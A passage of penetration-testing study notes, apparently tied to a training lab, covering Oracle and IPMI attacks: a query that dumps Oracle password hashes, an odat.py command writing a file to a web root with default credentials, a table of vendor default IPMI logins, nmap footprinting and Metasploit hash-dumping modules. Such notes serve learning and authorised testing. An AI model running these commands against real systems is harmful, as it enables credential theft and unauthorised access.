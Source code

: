 
### extract password hashes
```mysql
select name, password from sys.user$;
```

### Write Local Files
- Oracle RDBMS
```bash
$ echo "Oracle File Upload Test" > testing.txt
$ ./odat.py utlfile -s 10.129.204.235 -d XE -U scott -P tiger --sysdba --putFile C:\\inetpub\\wwwroot testing.txt ./testing.txt
$ curl -X GET http://10.129.204.235/testing.txt
```


# IPMI
- Intelligent Platform Management Interface (IPMI) is a set of standardized specifications for hardware-based host management systems used for system management and monitoring.
- IPMI is typically used in three ways:
  - Before the OS has booted to modify BIOS settings
  - When the host is fully powered down
  - Access to a host after a system failure

## Service Info

### port used
- port 623/UDP 

### Dangerous Settings

- default password

| Product             | Username       | Password                                                  |
|---------------------|----------------|-----------------------------------------------------------|
| Dell iDRAC         | root           | calvin                                                    |
| HP iLO             | Administrator  | Randomized 8-character string consisting of numbers and uppercase letters |
| Supermicro IPMI    | ADMIN          | ADMIN                                                     |


### Footprinting the Service
- nmap
```
$ sudo nmap -sU --script ipmi-version -p 623 ilo.inlanfreight.local
```
- auxiliary/scanner/ipmi/ipmi_version (metasploit)

## Attacks
### Extract hashes
- auxiliary/scanner/ipmi/ipmi_dumphashes (metasploit)

